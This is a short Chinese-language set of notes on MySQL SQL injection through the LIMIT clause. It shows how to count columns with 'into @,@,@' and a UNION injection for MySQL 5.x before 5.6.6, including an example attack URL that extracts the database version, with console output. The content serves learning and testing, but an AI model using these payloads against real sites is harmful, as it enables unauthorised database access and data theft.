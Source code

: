 # limit 注入中使用into查列数方法

## 0x00 记忆方式

limit 0,1 into @,@,@,@,x

## 0x01 实验

```plain
# 可以很明显看得到是3列
mysql> select * from tdb_admin limit 0,1;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set
# 输入 into @时爆列名不一致了
mysql> select * from tdb_admin limit 0,1 into  @;
1222 - The used SELECT statements have a different number of columns
# 输入 into @,@,@ 时显示ok了,说明 tdb_admin表 列数为 3
mysql> select * from tdb_admin limit 0,1 into  @,@,@;
Query OK, 1 row affected
```

# MySQL limit union注入-无orderBy的注入方法-只适用于小于5.6.6的5.x系列

## 0x00 记忆方式

select * from tdb_goods limit 0,2 union select 1,2,3,4,5,6,7

## 0x01 爆数据库版本

web语句: http://www.test.com/limit_sql.php?limit=2 union select 1,VERSION(),3,4,5,6,7



数据库语句: select * from tdb_goods limit 0,2 union select 1,VERSION(),3,4,5,6,7;

```plain
mysql> select * from tdb_goods limit 0,2 union select 1,VERSION(),3,4,5,6,7;
+----------+---------------------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name                      | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6鑻卞绗旇鏈?          | 绗旇鏈?    | 鍗庣       |    3399.000 |       1 |          0 |
|        2 | Y400N 14.0鑻卞绗旇鏈數鑴?       | 绗旇鏈?    | 鑱旀兂       |    4899.000 |       1 |          0 |
|        1 | 5.5.53                          | 3          | 4          |       5.000 |       6 |          7 |
+----------+---------------------------------+------------+------------+-------------+---------+------------+
```
